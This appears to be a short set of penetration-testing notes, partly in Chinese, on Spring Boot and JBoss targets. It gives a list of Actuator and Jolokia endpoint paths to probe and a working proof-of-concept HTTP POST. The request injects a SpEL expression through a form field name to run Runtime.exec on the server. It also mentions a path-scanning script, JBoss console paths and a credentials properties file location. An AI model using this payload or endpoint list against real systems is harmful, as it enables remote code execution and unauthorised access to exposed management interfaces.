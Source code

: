 ```html
/metrics
/mappings
/prometheus
/refresh
/scheduledtasks
/sessions
/shutdown
/trace
/threaddump
/actuator/auditevents
/actuator/beans
/actuator/health
/actuator/conditions
/actuator/configprops
/actuator/env
/actuator/info
/actuator/loggers
/actuator/heapdump
/actuator/threaddump
/actuator/metrics
/actuator/scheduledtasks
/actuator/httptrace
/actuator/mappings
/actuator/jolokia
/actuator/hystrix.stream
/jolokia/list
/_async/AsyncResponseService?WSDL
/console
/ws_utc/config.do
```
/account<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1615359228807-156686bf-cb03-4791-baa9-df1cf19d70ed.png#height=204&id=q5974&originHeight=272&originWidth=745&originalType=binary&ratio=1&size=147763&status=done&style=none&width=559)<br />poc
```
POST /account HTTP/1.1
Host: 10.10.20.166:8080
Connection: keep-alive
Accept-Encoding: gzip, deflate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Content-Length: 96
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
cache-control: no-cache
Cookie: sidebar_collapsed=false
X-Forwarded-For: 127.0.0.2
Content-Type: application/x-www-form-urlencoded
name[#this.getClass().forName('java.lang.Runtime').getRuntime().exec('touch /tmp/jas502n')]=test
```

SB-Actuator.py扫路径
<a name="Sn3pR"></a>
## 
<a name="ysCtv"></a>
## JBOSS
jboss 4.x 及其之前的版本 console 管理路径为 /jmx-console/ 和 /web-console/ <br />/opt/jboss/jboss4/server/default/conf/props/jmx-console-users.properties
